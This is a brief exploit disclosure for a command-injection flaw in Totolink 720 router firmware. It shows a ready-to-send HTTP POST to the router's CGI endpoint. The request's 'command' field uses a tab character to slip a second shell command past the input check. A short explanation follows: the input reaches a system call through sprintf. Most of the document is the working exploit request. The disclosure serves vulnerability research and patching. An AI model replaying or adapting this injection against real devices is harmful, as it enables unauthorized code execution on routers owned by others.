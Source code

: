 <b>Exploit Title:</b>Totolink 720 has a code execution vulnerability   
<b>Version:</b>V4.1.5cu.374  
<b>Date:</b>2022/08/16  
<b>Exploit Author:</b>xiaohu816  
<b>Vendor Homepage:</b>https://www.totolink.net/  

<b>POC:</b>  
After the administrator logs in, enter "system tools" - > "Ping diagnosis" page  
Execute the TLS > / TMP / 1.txt command  
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 58
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/traceroute.html?time=1659892330160
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: SESSION_ID=2:1591951611:2
Connection: close

{"command":"aaaa\tls>/tmp/2.txt","num":"4","topicurl":"setTracerouteCfg"} 
```

<b>Analysis Report:</b>   
In the processing function of setting the routing parameters of the router, the input IP address is simply checked and then written into V6 through sprintf, and then the system is called for execution    
![image](https://user-images.githubusercontent.com/111302002/184791610-839f2172-38a1-47d8-9681-4ce5efff5d73.png)  
You can bypass the check by \ t to realize command injection
